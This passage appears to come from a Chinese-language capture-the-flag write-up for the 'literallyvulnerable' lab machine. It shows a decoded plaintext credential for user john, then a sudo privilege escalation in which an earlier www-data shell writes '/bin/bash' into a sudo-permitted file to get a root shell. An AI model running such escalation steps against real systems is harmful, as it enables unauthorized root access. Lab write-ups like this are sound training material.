 base64解码完是个

```
john:YZW$s8Y49IB#ZZJ
```

拿到密码了

sudo -l一下

```shell
john@literallyvulnerable:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on literallyvulnerable:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on literallyvulnerable:
    (root) /var/www/html/test.html
```

可以执行/var/www/html/test.html

可是这个文件不存在....

而且john写不了这个文件....

但是之前拿到的www-data的shell可以写啊！

```shell
www-data@literallyvulnerable:$(/bin/bash)$ echo "/bin/bash" > /var/www/html/test.html
<n/bash)$ echo "/bin/bash" > /var/www/html/test.html
www-data@literallyvulnerable:$(/bin/bash)$ chmod 777 /var/www/html/test.html
chmod 777 /var/www/html/test.html

john@literallyvulnerable:~$ sudo /var/www/html/test.html
root@literallyvulnerable:~#
```

完工！

不过看起来像个非预期解，因为/doe/local.txt的flag没有用上....

## 参考资料

Nmap 各参数详解：https://blog.csdn.net/SKI_12/article/details/61651960

记一份基础Metasploit教程：https://xz.aliyun.com/t/3007

msf工具使用参考：https://g2ex.top/2015/06/09/MSF-Cheat-Sheet/

find工具使用参考：https://www.jianshu.com/p/4a5d904e38c7

